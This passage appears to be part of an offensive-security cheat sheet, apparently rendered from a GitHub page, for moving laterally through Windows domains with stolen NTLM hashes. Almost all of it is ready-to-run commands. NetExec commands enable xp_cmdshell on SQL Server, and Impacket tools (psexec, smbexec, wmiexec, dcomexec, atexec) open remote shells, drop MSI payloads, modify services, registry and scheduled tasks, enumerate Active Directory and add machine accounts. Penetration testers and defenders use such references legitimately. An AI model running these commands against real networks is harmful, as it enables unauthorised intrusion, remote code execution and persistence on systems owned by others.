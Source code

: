 ### MSSQL Module
- Connect to SQL Server with pass-the-hash and enable xp_cmdshell:  
  `nxc mssql <target> -u <user> -H <LMHASH:NTHASH> --continue-on-success -Q "EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE"`
- Execute OS command through xp_cmdshell:  
  `nxc mssql <target> -u <user> -H <LMHASH:NTHASH> --continue-on-success -Q "EXEC xp_cmdshell 'whoami'"`  
  (requires xp_cmdshell already enabled)

---

## Impacket Lateral Movement Toolkit

All Impacket examples accept `-hashes <LMHASH:NTHASH>` for pass-the-hash; use `-dc-ip <domain_controller_ip>` when Kerberos lookups need help.

### Remote Command & Shell Execution
- PsExec-style service creation (semi-interactive shell):  
  `psexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- SMB exec with named pipes (fileless, command oriented):  
  `smbexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- WMI command execution (semi-interactive prompt):  
  `wmiexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- DCOM-based execution using MMC:  
  `dcomexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- Scheduled task (AT) execution:  
  `atexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> "cmd.exe /c whoami"`
- Remote MSI deployment (drops payload MSI):  
  `msiexec.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> <msi_path>`
- Interactive SMB client for manual operations:  
  `smbclient.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- Remote registry modification or query:  
  `reg.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> query -key HKLM\\Software`

### Service & Task Abuse Helpers
- Query/modify Windows services over RPC:  
  `services.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> list`
- Manage scheduled tasks:  
  `schtasks.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> -create`

### SQL Server & LDAP Movement
- MSSQL client with integrated/NTLM auth:  
  `mssqlclient.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH> -windows-auth`
- LDAP queries with a hash (enumerate AD for escalation paths):  
  `ldapdomaindump.py <domain>/<user>@<dc_ip> -hashes <LMHASH:NTHASH>`
- Enumerate domain SIDs and users:  
  `lookupsid.py <domain>/<user>@<target> -hashes <LMHASH:NTHASH>`
- Add new machine account using credentials/hashes:  
  `addcomputer.py <domain>/<user>@<dc_ip> -hashes <LMHASH:NTHASH> -computer-name <NEWCOMPUTER$> -computer-pass <Password>`
